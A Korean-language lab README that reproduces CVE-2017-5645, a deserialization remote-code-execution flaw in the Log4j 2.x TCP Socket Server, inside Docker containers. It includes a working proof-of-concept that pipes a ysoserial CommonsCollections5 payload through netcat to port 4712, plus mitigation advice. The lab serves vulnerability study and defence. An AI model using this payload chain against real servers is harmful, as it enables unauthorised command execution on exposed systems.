




# Apache Log4j TCP Server Deserialization RCE — CVE-2017-5645

**Contributors**: @leeazyone

| 항목 | 내용 |
|---|---|
| CVE | CVE-2017-5645 |
| 영향 버전 | Apache Log4j 2.x 2.8.2 이전 버전 |
| 취약점 유형 | Deserialization RCE |
| CVSS v3.1 Score | **9.8** (Critical) |
| 인증 필요 여부 | 없음 |
| 원격 악용 | 가능 |
| 패치 버전 | Log4j 2.8.2 이상 |

---

## 취약점 요약

CVE-2017-5645는 Apache Log4j 2.x 2.8.2 이전 버전의 TCP Socket Server 또는 UDP Socket Server에서 발생하는 역직렬화 취약점이다.

Log4j TCP Socket Server는 외부에서 전달된 직렬화된 로그 이벤트를 수신하고 역직렬화한다. 취약한 버전에서는 신뢰할 수 없는 직렬화 객체에 대한 검증이 부족하여, 공격자가 조작된 직렬화 payload를 TCP 포트로 전송할 경우 서버 측에서 임의 명령이 실행될 수 있다.

본 실습에서는 Log4j 2.8.1 TCP Server 환경을 Docker Compose로 구성하고, ysoserial payload를 이용하여 컨테이너 내부에 `/tmp/success` 파일이 생성되는지 확인하였다.

### 참고 자료

- NVD - CVE-2017-5645
- https://issues.apache.org/jira/browse/LOG4J2-1863
- https://github.com/pimps/CVE-2017-5645


---

## 환경 구성

```bash
cd kr-vulhub/log4j/CVE-2017-5645
docker compose up -d log4j
```
 
PoC 실행에 필요한 도구들은 `exploit` 컨테이너 내부에 포함되도록 구성하여서 호스트 PC에는 Java, ysoserial, netcat을 별도로 설치할 필요가 없다. 

### 파일 구조

```text
CVE-2017-5645/
├── README.md
├── docker-compose.yml
└── Dockerfile
```

---

## 취약 조건

| 조건 | 내용 |
|---|---|
| 취약 버전 | Apache Log4j 2.x 2.8.2 이전 |
| 취약 서비스 | Log4j TCP Socket Server |
| 접근 포트 | TCP 4712 |
| 인증 | 불필요 |
| 공격 방식 | 조작된 Java 직렬화 payload 전송 |
| 결과 | 서버 측 임의 명령 실행 |

공격자는 TCP 4712 포트에 접근할 수 있는 경우, 조작된 직렬화 객체를 전송하여 서버에서 명령을 실행할 수 있다.

---

## 재현 절차

### 1단계 — 취약 서버 실행

```bash
docker compose up -d log4j
```

컨테이너 실행 상태를 확인한다.

```bash
docker compose ps
```

4712 포트가 열려 있으면 취약한 Log4j TCP Server가 정상적으로 실행된 것이다.



---

### 2단계 — 공격 전 상태 확인

PoC 실행 전에는 `/tmp/success` 파일이 존재하지 않아야 한다.

```bash
docker compose exec log4j bash -c "rm -f /tmp/success"
docker compose exec log4j bash -c "ls -al /tmp/success"
```

다음과 같이 파일이 없다는 메시지가 나오면 공격 전 상태가 정상이다.

```text
ls: cannot access '/tmp/success': No such file or directory
```



---

### 3단계 — PoC 실행

`exploit` 컨테이너를 실행하여 Log4j TCP Server로 악성 직렬화 payload를 전송한다.

```bash
docker compose run --rm exploit
```

이 명령어는 exploit 컨테이너 내부에서 다음 작업을 수행한다.

```text
ysoserial payload 생성
↓
touch /tmp/success 명령 포함
↓
nc를 이용해 log4j:4712로 payload 전송
```



---

### 4단계 — 실행 결과 확인

컨테이너 내부에 `/tmp/success` 파일이 생성되었는지 확인한다.

```bash
docker compose exec log4j bash -c "ls -al /tmp/success"
```

다음과 같이 `/tmp/success` 파일이 확인되면 명령 실행이 성공한 것이다.

```text
-rw-r--r-- 1 root root 0 ... /tmp/success
```



---

## PoC 코드

PoC 실행은 `docker-compose.yml`의 `exploit` 서비스에 포함되어 있다.

```bash
java -jar /opt/ysoserial.jar CommonsCollections5 'touch /tmp/success' | nc -w 3 log4j 4712
```

해당 명령은 ysoserial을 이용하여 `touch /tmp/success` 명령을 실행하는 직렬화 payload를 생성한 뒤, Log4j TCP Server의 4712 포트로 전송한다.

---

## 실행 결과

| 단계 | 결과 |
|---|---|
| 취약 서버 실행 | Log4j TCP Server가 4712 포트에서 실행됨 |
| 공격 전 확인 | `/tmp/success` 파일이 존재하지 않음 |
| PoC 실행 | exploit 컨테이너가 payload를 생성하여 전송 |
| 결과 확인 | `/tmp/success` 파일 생성 확인 |

`/tmp/success` 파일이 생성되었다는 것은 공격자가 전송한 payload에 포함된 명령이 Log4j TCP Server 컨테이너 내부에서 실행되었다는 것이다. 


---

## 대응 방안

| 방법 | 내용 |
|---|---|
| 패치 | Log4j를 2.8.2 이상 버전으로 업데이트 |
| 기능 비활성화 | Log4j TCP Socket Server 기능을 사용하지 않는 경우 비활성화 |
| 접근 제어 | TCP 4712 포트를 외부에 노출하지 않도록 제한 |
| 방화벽 설정 | 신뢰할 수 있는 네트워크에서만 접근 가능하도록 설정 |
| 역직렬화 방어 | 신뢰할 수 없는 직렬화 객체를 역직렬화하지 않도록 제한 |

---

## 참고: 수동 재현 방법

호스트 PC에 Java, ysoserial, netcat이 설치되어 있다면 다음과 같이 수동으로 payload를 전송할 수도 있다.

```bash
java -jar ysoserial.jar CommonsCollections5 "touch /tmp/success" | nc localhost 4712
```

---

## 환경 종료

```bash
docker compose down -v
```


